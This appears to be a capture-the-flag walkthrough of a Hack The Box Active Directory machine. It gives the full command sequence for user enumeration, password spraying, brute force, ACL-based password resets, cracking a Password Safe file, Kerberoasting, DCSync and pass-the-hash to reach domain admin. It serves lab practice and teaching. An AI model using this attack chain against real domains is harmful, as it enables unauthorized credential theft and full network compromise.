

# Administrator

## Enumeration

```bash
nmap -sC -sV -Pn 10.10.11.42 -oN scans/nmap.initial
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-01 23:35 GMT
Nmap scan report for 10.10.11.42
Host is up (0.036s latency).
Not shown: 987 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-02 06:35:46Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
|_clock-skew: 7h00m00s
| smb2-time:
|   date: 2025-03-02T06:35:53
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.64 seconds
```
```bash
dig +short ANY @10.10.11.42 administrator.htb
10.10.11.42
dc.administrator.htb.
dc.administrator.htb. hostmaster.administrator.htb. 124 900 600 86400 3600
```

## Kerberos user enumeration

```bash
kerbrute userenum \
  -d administrator.htb \
  --dc 10.10.11.42 \
  -o valid_ad_users \
  /usr/share/seclists-git/Usernames/xato-net-10-million-usernames-dup.txt
```
```
    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 03/02/25 - Ronnie Flathers @ropnop

2025/03/02 14:59:56 >  Using KDC(s):
2025/03/02 14:59:56 >   10.10.11.42:88

2025/03/02 14:59:56 >  [+] VALID USERNAME:       michael@administrator.htb
2025/03/02 14:59:57 >  [+] VALID USERNAME:       Michael@administrator.htb
2025/03/02 14:59:57 >  [+] VALID USERNAME:       benjamin@administrator.htb
2025/03/02 15:00:06 >  [+] VALID USERNAME:       administrator@administrator.htb
2025/03/02 15:00:06 >  [+] VALID USERNAME:       emily@administrator.htb
2025/03/02 15:00:06 >  [+] VALID USERNAME:       MICHAEL@administrator.htb
2025/03/02 15:00:10 >  [+] VALID USERNAME:       olivia@administrator.htb
2025/03/02 15:00:13 >  [+] VALID USERNAME:       Benjamin@administrator.htb
2025/03/02 15:00:17 >  [+] VALID USERNAME:       ethan@administrator.htb
2025/03/02 15:01:15 >  [+] VALID USERNAME:       Administrator@administrator.htb
2025/03/02 15:02:04 >  [+] VALID USERNAME:       BENJAMIN@administrator.htb
```

## Password Spraying

Spraying an empty password to all of the users we got
```bash
kerbrute passwordspray \
  -d administrator.htb \
  --dc 10.10.11.42 \
  ./users \
  ''
```

## Unauthenticated SMB connection attempts

Unauthenticated smb connection attempts
```bash
./enum4linux.pl -a -u "" -p "" 10.10.11.42
./enum4linux.pl -a -u "guest" -p "" 10.10.11.42
```
```bash
smbmap -u "" -p "" -P 445 -H 10.10.11.42
smbmap -u "guest" -p "" -P 445 -H 10.10.11.42
```
```bash
smbclient -U '%' -L //10.10.11.42
smbclient -U 'guest%' -L //10.10.11.42
```

## Unauthenticated LDAP Enumeration

```bash
nmap -n -sV --script "ldap* and not brute" -p 389 10.10.11.42
```

Interesting lines:
```
|       rootDomainNamingContext: DC=administrator,DC=htb
|       ldapServiceName: administrator.htb:dc$@ADMINISTRATOR.HTB
|       subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=administrator,DC=htb
|       serverName: CN=DC,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=administrator,DC=htb
|       schemaNamingContext: CN=Schema,CN=Configuration,DC=administrator,DC=htb
|       namingContexts: DC=administrator,DC=htb
|       namingContexts: CN=Configuration,DC=administrator,DC=htb
|       namingContexts: CN=Schema,CN=Configuration,DC=administrator,DC=htb
|       namingContexts: DC=DomainDnsZones,DC=administrator,DC=htb
|       namingContexts: DC=ForestDnsZones,DC=administrator,DC=htb
|       dsServiceName: CN=NTDS Settings,CN=DC,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=administrator,DC=htb
|       dnsHostName: dc.administrator.htb
|       defaultNamingContext: DC=administrator,DC=htb
|_      configurationNamingContext: CN=Configuration,DC=administrator,DC=htb
```


Trying to see if I can get an unauthenticated ldap connection
```bash
ldapsearch -x -H ldap://10.10.11.42:389 -b "DC=administrator,DC=htb"
ldapsearch -x -H ldap://10.10.11.42:389 -b "DC=administrator,DC=htb" -D '' -w ''
ldapsearch -x -H ldap://10.10.11.42:389 -b "DC=administrator,DC=htb" -D 'dc' -w ''
ldapsearch -x -H ldap://10.10.11.42:389 -b "DC=administrator,DC=htb" -D 'ADMINISTRATOR.HTB\dc' -w '' 
```

```bash
nmap -p 389 --script ldap-search -Pn 10.10.11.42
nmap -p 389 --script ldap-novell-getpass -Pn 10.10.11.42
nmap -p 389 --script ldap-rootdse -Pn 10.10.11.42
nmap -n -sV --script "ldap* and not brute" -p 389 10.10.11.42
```
```bash
ldapsearch -LLL -H ldap://10.10.11.42:389 -x -s base
ldapsearch -LLL -H ldap://10.10.11.42:389 -x -s base namingcontexts
ldapsearch -LLL -H ldap://10.10.11.42:389 -x -b "DC=administrator,DC=htb"
hydra -l dc -P /usr/share/seclists-git/Passwords/Leaked-Databases/rockyou.txt 10.10.11.42 ldap2 -V -f
```
```bash
find /usr/share/nmap/scripts | grep ldap
/usr/share/nmap/scripts/ldap-search.nse
/usr/share/nmap/scripts/ldap-novell-getpass.nse
/usr/share/nmap/scripts/ldap-rootdse.nse
/usr/share/nmap/scripts/ldap-brute.nse
```

## Brute Force

Tring to bruteforce those users with some of the most common rockyou passwords
```bash
cme smb 10.10.11.42 -u users -p /usr/share/seclists-git/Passwords/Leaked-Databases/rockyou-30.txt --shares
```

Running rockyou against dc in the background just in case
```
cme smb 10.10.11.42 \
  -u 'dc' \
  -p /usr/share/seclists-git/Passwords/Leaked-Databases/rockyou-75.txt
```


## AS-REP Roasting Attempts

We don't have a valid set of creds yet, so we can't know if any of the users doesn't require pre-auth, but we have a list of users, so we may as well just try them all

```bash
GetNPUsers.py administrator.htb/ \
  -usersfile users \
  -format hashcat \
  -outputfile hashes.asreproast
```
```
Impacket v0.12.0.dev1+20230816.160145.f6e03b99 - Copyright 2023 Fortra

[-] User michael doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User benjamin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User emily doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User olivia doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ethan doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User dc doesn't have UF_DONT_REQUIRE_PREAUTH set
```

## Unumerating LDAP with an authenticated user

Oooh yoooo! I just realised there is info in the box description where we're given an initial user's password, god damn... Is that a new thing now? HTB gives you hints?
```
olivia:ichliebedich
```

```bash
cme ldap 10.10.11.42 -u users -p 'ichliebedich'
SMB         10.10.11.42     445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.42     445    DC               [-] administrator.htb\michael:ichliebedich
LDAP        10.10.11.42     445    DC               [-] administrator.htb\benjamin:ichliebedich
LDAP        10.10.11.42     445    DC               [-] administrator.htb\administrator:ichliebedich
LDAP        10.10.11.42     445    DC               [-] administrator.htb\emily:ichliebedich
LDAP        10.10.11.42     389    DC               [+] administrator.htb\olivia:ichliebedich
```
```bash
ldapsearch -x -LLL -H ldap://10.10.11.42:389 -b "DC=administrator,DC=htb" -D 'olivia@administrator.htb' -w 'ichliebedich'
ldapsearch -x -LLL -H ldap://10.10.11.42:389 -b "CN=users,DC=administrator,DC=htb" -D 'olivia@administrator.htb' -w 'ichliebedich' samaccountname
```

Now that we have olivia's creds we can confirm that there's no asrep roastable users
```bash
GetNPUsers.py administrator.htb/olivia:ichliebedich -request -format hashcat -outputfile hashes.asreproast
```

## BloodHound

Running bloodhound-python to get ldap data to be injested in BloodHound from our local linux box
```bash
bloodhound-python \
  -u olivia \
  -p 'ichliebedich' \
  -c All \
  -d administrator.htb \
  --dns-timeout 10 \
  -ns 10.10.11.42
```

Starting bloodhound and injesting the data
```bash
sudo neo4j start
bloodhound &
```

Olivial has `GenericAll` on Michael


And Michael has `ForceChangePassword` on Benjamin


## BloodyAD

Leveraging olivia's `GenericAll` on michael to change michael's password
```bash
bloodyAD \
  -u "olivia" \
  -p "ichliebedich" \
  -d "administrator.htb" \
  --host "10.10.11.42" \
  --dns "10.10.11.42" \
  -v DEBUG \
  set password "michael" 'fluffydog17!'
```
```bash
cme ldap 10.10.11.42 -u 'michael' -p 'fluffydog17!'
```

Leveraging michael's `ForceChangePassword` on benjamin to change benjamin's password
```bash
bloodyAD \
  -u "michael" \
  -p 'fluffydog17!' \
  -d "administrator.htb" \
  --host "10.10.11.42" \
  --dns "10.10.11.42" \
  -v DEBUG \
  set password "benjamin" 'fluffydog17!'
```
```bash
cme ldap 10.10.11.42 -u 'benjamin' -p 'fluffydog17!'
```

# FTP Enum

Olivia
```bash
ftp 10.10.11.42
Connected to 10.10.11.42.
220 Microsoft FTP Service
Name (10.10.11.42:blnkn): olivia
331 Password required
Password:
530 User cannot log in, home directory inaccessible.
ftp: Login failed.
Remote system type is Windows_NT.
ftp>
221 Goodbye.
```

Michael
```bash
ftp 10.10.11.42
Connected to 10.10.11.42.
220 Microsoft FTP Service
Name (10.10.11.42:blnkn): michael
331 Password required
Password:
530 User cannot log in, home directory inaccessible.
ftp: Login failed.
Remote system type is Windows_NT.
ftp>
221 Goodbye.
```

Benjamin
```bash
ftp 10.10.11.42
Connected to 10.10.11.42.
220 Microsoft FTP Service
Name (10.10.11.42:blnkn): benjamin
331 Password required
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
150 Opening ASCII mode data connection.
10-05-24  08:13AM                  952 Backup.psafe3
226 Transfer complete.
ftp> get Backup.psafe3
200 PORT command successful.
125 Data connection already open; Transfer starting.
WARNING! 3 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
952 bytes received in 0.0317 seconds (29.4 kbytes/s)
ftp>
221 Goodbye.
```

We found a psafe3 file in benjamin's documents

## Crack Password Safe V3 database

This is a password safe database
```bash
file Backup.psafe3
Backup.psafe3: Password Safe V3 database
```

John has a script, which didn't work for me out of the box, I had to make a few changes
```bash
diff /usr/bin/pwsafe2john ../tools/pwsafe2john.py
32c31
<     data = f.read(4)
---
>     data = f.read(4).decode()
42,43c41
<     iterations = struct.unpack(">I", f.read(4))[0]
<
---
>     iterations = struct.unpack("<I", f.read(4))[0]
46c44
<     sys.stdout.write(hexlify(buf))
---
>     sys.stdout.write(hexlify(buf).decode())
52c50
<     sys.stdout.write(hexlify(hsh))
---
>     sys.stdout.write(hexlify(hsh).decode())
```

Crack it with john
```bash
john --wordlist=~/.local/share/seclists/rockyou.txt backupsafe.hash
```
```bash
john backupsafe.hash --show
Backu:t***********

1 password hash cracked, 0 left
```

Spraying it to all users just in case, no luck though
```bash
kerbrute passwordspray \
  -d administrator.htb \
  --dc 10.10.11.42 \
  users \
  't***********'
```

## Extract the passwords from passwordsafe

Install passwordsafe and open the archive with it
```bash
pwsafe Backup.psafe3
```


The passwords are
```
alexander:U*****************************
emily:U****************************
emma:W*****************************
```
```bash
cme winrm 10.10.11.42 -u users -p passwords
```

The user flag is on emily's desktop
```bash
evil-winrm -i administrator.htb -u emily -p 'U*****************************
```

## Abuse Emily's GenericWrite

Emily has `GenericWrite` on Ethan




GetUserSPNs.py did not work
```bash
GetUserSPNs.py \
  -dc-ip 10.10.11.42 \
  -dc-host administrator.htb \
  administrator.htb/emily:U****************************
```

The first attempt at that gives us kerberos clock skew too great
```bash
python targetedKerberoast.py \
  -u "emily" \
  -p "U***************************** \
  -d "administrator.htb" \
  --dc-ip 10.10.11.42
```

Synchronizing time with the domain controller
```bash
sudo systemctl start ntpd
sudo ntpdate -u 10.10.11.42
```

And trying again, this time we get a TGS hash
```bash
python targetedKerberoast.py \
  -u "emily" \
  -p "U***************************** \
  -d "administrator.htb" \
  --dc-ip 10.10.11.42
```
```
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (ethan)
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$shnip
```

Cracking the hash
```bash
john --wordlist=~/.local/share/seclists/rockyou.txt tgs.hash
john tgs.hash --show
```

## DCsync as ethan


Ethan can dc-sync, so we can use impacket's secretsdump to get a hash the administrator's hash
```bash
secretsdump.py Administrator.htb/ethan:l*********@dc.Administrator.htb
```

We pass-the-hash with winrm to get a winrm shell as administrator
```bash
evil-winrm -i administrator.htb -u administrator -H "3*******************************"
```
